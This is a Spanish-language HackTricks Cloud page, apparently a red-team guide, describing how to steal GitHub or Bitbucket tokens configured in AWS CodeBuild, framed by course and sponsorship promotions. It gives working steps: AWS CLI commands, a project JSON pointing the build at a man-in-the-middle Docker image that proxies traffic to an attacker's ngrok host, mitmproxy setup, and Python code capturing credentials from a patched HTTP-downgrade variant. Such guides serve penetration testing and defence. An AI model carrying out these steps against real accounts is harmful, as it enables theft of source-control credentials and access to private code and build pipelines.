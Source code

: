 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de Github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si descubre que la autenticación para, por ejemplo, Github está configurada en la cuenta, puede **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de Docker específica** para ejecutar la construcción del proyecto.

Para este propósito, podría **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para configurar la **imagen de Docker**.

La imagen de Docker que podría usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que configurará las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto le permitirá interceptar la mayoría del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Cree y suba su propia imagen Docker MitM**
* Siga las instrucciones del repositorio para configurar la dirección IP de su proxy y establecer su certificado SSL y **construir la imagen de Docker**.
* **NO CONFIGURE `http_proxy`** para no interceptar solicitudes al punto final de metadatos.
* Podría usar **`ngrok`** como `ngrok tcp 4444` para configurar el proxy a su host.
* Una vez que tenga construida la imagen de Docker, **súbala a un repositorio público** (Dockerhub, ECR...)
2. **Configure el entorno**
* Cree un **nuevo proyecto de Codebuild** o **modifique** el entorno de uno existente.
* Configure el proyecto para usar la **imagen de Docker generada previamente**

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

3. **Configure el proxy MitM en su host**

* Como se indica en el **repositorio de Github**, podría usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue la 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecuta la construcción y captura las credenciales**

*   Puedes ver el token en el encabezado **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también podría hacerse desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Mediante el protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto CodeBuild apuntando a su máquina (por ejemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Después, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Build the project**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usarlos más fácilmente que utilizando el servicio CodeBuild directamente.
{% endhint %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
